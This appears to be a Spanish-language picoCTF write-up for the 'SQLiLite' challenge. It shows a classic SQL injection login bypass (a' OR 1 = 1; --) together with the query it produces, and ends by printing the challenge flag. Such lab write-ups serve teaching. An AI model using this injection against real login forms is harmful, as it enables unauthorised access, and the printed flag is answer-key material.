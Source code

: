 ```yaml
---
title: SQLiLite
date: 2025-05-19 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, sqlite, explotacion web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>SQLiLite
Author: Mubarak Mikail
Description
Can you login to this website? Try to login here.
{: .prompt-tip }

Nada más abramos la instancia, y carguemos la página web veremos el típico formulario de login, las pistas dicen que el usuario es 
admin. ¿Probamos con alguna inyección SQL como vimos anteriormente? [picoctf-moresqli](../picoctf-moresqli)

>a' OR 1 = 1; --

```
username: admin
password: a' OR 1 = 1; --
SQL query: SELECT * FROM users WHERE name='admin' AND password='a' OR 1 = 1; --'

Logged in! But can you see the flag, it is in plainsight.
```

Efectivamente funciona pero no podemos ver la flag. Procedo a ver el código fuente de la página a la que hemos accedido y voilá.

``` html
<pre>username: admin
password: a&#039; OR 1 = 1; --
SQL query: SELECT * FROM users WHERE name=&#039;admin&#039; AND password=&#039;a&#039; OR 1 = 1; --&#039;
</pre><h1>Logged in! But can you see the flag, it is in plainsight.</h1><p hidden>Your flag is: picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}</p>
```

flag: **picoCTF{L00k5_l1k3_y0u_solv3d_it_9b0a4e21}**

De nuevo SQLi, casi una repeteción. 